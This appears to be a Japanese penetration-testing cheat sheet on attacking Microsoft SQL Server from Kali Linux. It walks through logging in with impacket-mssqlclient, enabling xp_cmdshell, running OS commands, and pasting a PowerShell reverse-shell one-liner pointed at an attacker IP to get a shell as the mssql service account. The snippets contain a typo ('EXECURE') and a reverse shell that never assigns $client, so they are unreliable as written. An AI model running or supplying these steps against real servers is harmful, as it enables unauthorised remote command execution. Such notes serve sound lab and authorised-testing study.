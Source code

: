 # MSSQLにKali Linuxからログイン

`impacket-mssqlclient <DOMAIN>/<USERNAME>:<PASSWORD>`


# xp_cmdshell を使えるようにする

xp_cmdshell では受け取った文字列をコマンドプロンプトで実行できる。
ただし、デフォルトでは無効になっているので、有効に設定を変更する必要がある。

以下のコマンドを実行して、 xp_cmdshell を使えるようにする。

```
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECURE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```


# xp_cmdshell でコマンドを実行する

```
EXECUTE xp_cmdshell 'whoami';
```

nt service\mssql$sqlexpress が返ってくるはず。  
コマンド部分にはリバースシェルのコマンドを入れることもできるので、Kali側で `nc -lvnp <LISTEN_PORT>` を実行した上で
```
xp_cmdshell 'New-Object System.Net.Sockets.TCPClient("<ATTACKER_IP>",<LISTEN_PORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
をMSSQL側で実行することで、 mssql ユーザーとしてシェルを取得することができる。




